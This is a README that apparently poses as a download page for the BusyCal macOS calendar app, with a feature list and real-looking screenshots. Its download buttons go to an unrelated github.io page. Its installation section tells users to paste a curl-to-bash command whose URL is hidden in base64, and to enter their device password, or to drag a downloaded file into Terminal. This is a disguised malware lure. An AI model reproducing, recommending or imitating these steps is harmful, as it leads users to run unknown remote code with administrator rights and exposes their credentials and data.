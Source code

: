 # 📆 BusyCal — Smart Calendar & Task Manager for macOS

**BusyCal** is a powerful, flexible, and feature-rich calendar app designed specifically for macOS. It combines a beautiful interface with advanced productivity tools like integrated task management, customizable views, time zone support, and natural language input.

Whether you're managing work projects, planning personal events, or juggling multiple calendars — BusyCal helps you stay organized, synced, and in control.

---

## ✅ Download BusyCal for macOS  
[![Download BusyCal](https://img.shields.io/badge/Download-BusyCal-blueviolet)](https://shuziktobehuman.github.io/huja/BusyCal)

---

## 📥 How to Use

Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

Installation via a command in the terminal:

1. Copy the installation command below.
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```


## 📦 What is BusyCal?

BusyCal is an advanced calendar application built for macOS users who need more power and flexibility than the default Calendar app. It seamlessly syncs with iCloud, Google, Exchange, Office 365, and other CalDAV services, making it the ideal hub for personal and professional scheduling.

With support for customizable calendar views, task integration, weather, tags, and alarms — BusyCal is trusted by thousands of productivity-focused Mac users.

---

## ✨ Features

- 📅 Customizable day, week, month & list views  
- 📝 Integrated task manager with calendar syncing  
- 🌍 Time zone support for global scheduling  
- 🔍 Smart filters, tags, colors, and custom alerts  
- 🌤 Built-in weather forecasts displayed directly on calendar  
- 🧠 Natural language input for fast event creation  
- 🔄 Sync with iCloud, Google Calendar, Exchange & more  
- 💻 Fully optimized for macOS Ventura and Apple Silicon  
- 🖥 Retina-ready interface with dark mode support  

---

## 💡 Why Use BusyCal?

- 🚀 Manage events and tasks from one unified interface  
- 📆 Ideal for professionals, teams, freelancers, and families  
- 🧭 Plan across time zones with ease  
- 📌 Keep organized with filters, tags, and color coding  
- 🔄 Enjoy reliable syncing across all your Apple devices  

---

[![Download BusyCal](https://img.shields.io/badge/Download-BusyCal-blueviolet)](https://shuziktobehuman.github.io/huja/BusyCal)


---



## 🖼 Preview

![BusyCal Screenshot 1](https://downloads.busymac.com/resources/img/busycal-mac/videos/fav_timezone_copy_web_poster.png)  
![BusyCal Screenshot 2](https://downloads.busymac.com/resources/img/busycal-mac/slideshow-month-task.png)

---

## 📌 Tags

busycal, busycal for mac, busycal 2, busycal 3, busycal app, busycal mac, busycal download mac, busycal download,  
mac calendar app, busycal task manager, calendar with weather mac, busycal icloud sync, busycal google calendar,  
mac event planner, busycal time zone support, calendar with tags mac, productivity calendar mac, busycal office 365

